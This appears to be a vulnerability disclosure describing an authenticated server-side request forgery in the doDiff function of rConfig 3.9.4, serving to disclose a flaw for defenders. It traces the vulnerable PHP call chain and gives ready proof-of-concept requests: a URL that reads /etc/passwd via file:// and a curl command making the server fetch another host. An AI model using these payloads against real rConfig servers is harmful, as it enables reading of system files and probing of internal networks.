


# SSRF vulnerability in `doDiff` Function of `classes/compareClass.php` File (rConfig 3.9.4 version)

## 0x01 Affected version

vendor: http://www.rconfig.com/

version: 3.9.4

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `doDiff` function of rConfig 3.9.4 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `path_b` parameter. We should note that the vulnerability requires authentication to trigger.


The vulnerable code is located in the `doDiff()` function in the `classes/compareClass.php` file. Because the file `www/lib/crud/configcompare.crud.php` does not perform sufficient checksumming on the `path_b` parameter, the taint is introduced from the `$url` variable into the tainted function `file` at the file `classes/compareClass.php`, and after the `file` function is executed it sends a request to the URL specified by the `path_b` parameter, eventually leading to an SSRF vulnerability.


Function call stack information related to the SSRF vulnerability.

```PHP
<?php
// www/lib/crud/configcompare.crud.php
$path_a = stripslashes(str_replace('"', "", $_GET['path_a']));
$path_b = stripslashes(str_replace('"', "", $_GET['path_b']));
$linepadding = $_GET['linepadding'];
...
$diff = new diff;
if ($linepadding >= 1 && $linepadding <= 99) { //if linepadding var is number and is between 1 and 99
    $text = $diff->inline($path_a, $path_b, $linepadding);
} else {
    $text = $diff->inline($path_a, $path_b);
}
...

// classes/compareClass.php
function inline($old, $new, $linepadding = null) {
		...
		$diff = $this->diffWrap($old, $new);
		...
}

// classes/compareClass.php
function diffWrap($old, $new) {       
    $this->diff = $this->doDiff($old, $new);
		...
}

// classes/compareClass.php
function doDiff($old, $new) {
    if (!is_array($old))
        $old = file($old);
    if (!is_array($new))
        $new = file($new);
		...
}
```

Because the `path_b` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:

```
http://172.16.119.147/rconfig/www/lib/crud/configcompare.crud.php?path_a=/tmp/flag&path_b=file:///etc/passwd
```


This vulnerability can lead to arbitrary file reads, for example if we use the `file://`protocol to read the `/etc/passwd` file





This vulnerability could also allow an attacker to make requests for arbitrary resources.




You can also use the following curl command to verify the vulnerability. (Note that you need to update the token information for authentication.)

```
curl -i http://172.16.119.147/rconfig/www/lib/crud/configcompare.crud.php?path_a=/tmp/flag&path_b=http://172.16.119.1/flag678
```


## 0x03 Acknowledgement

z3

